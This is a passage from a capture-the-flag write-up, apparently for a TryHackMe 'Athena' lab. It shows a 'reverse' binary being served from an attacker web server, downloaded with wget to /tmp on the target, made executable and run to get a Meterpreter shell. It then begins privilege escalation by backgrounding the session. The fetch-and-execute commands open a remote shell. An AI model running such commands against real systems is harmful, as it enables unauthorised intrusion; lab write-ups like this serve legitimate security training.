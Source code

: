 ### **<strong><font color="DarkKhaki">Meterpreter Shell</font></strong>**

* The only remaining task is to transfer the '**reverse**' binary to the target machine, grant it execution permission, and execute it.

```bash
# On the attacking machine, start a web server:
$ python3 -m http.server 80

# On the target machine
athena@routerpanel:~$ cd /tmp
athena@routerpanel:/tmp$ wget http://10.8.16.233/reverse
athena@routerpanel:/tmp$ chmod +x reverse
athena@routerpanel:/tmp$ ./reverse
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-athena/2023-09-17 19_28_24-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Running the 'reverse' binary</i></center>
<br/>

* After a few moments, you should get a Meterpreter shell on your multi handler listener:

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-athena/2023-09-17 19_07_58-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Running the 'reverse' binary</i></center>
<br/>

### **<strong><font color="DarkKhaki">Escalate to root</font></strong>**

**1-** Within your meterpreter shell, background the session, by running the command:
```bash
meterpreter > bg
```

**2-** Identify the session ID of your meterpreter session by running the `sessions` command:

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-athena/2023-09-17 19_10_54-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Running sessions</i></center>
<br/>

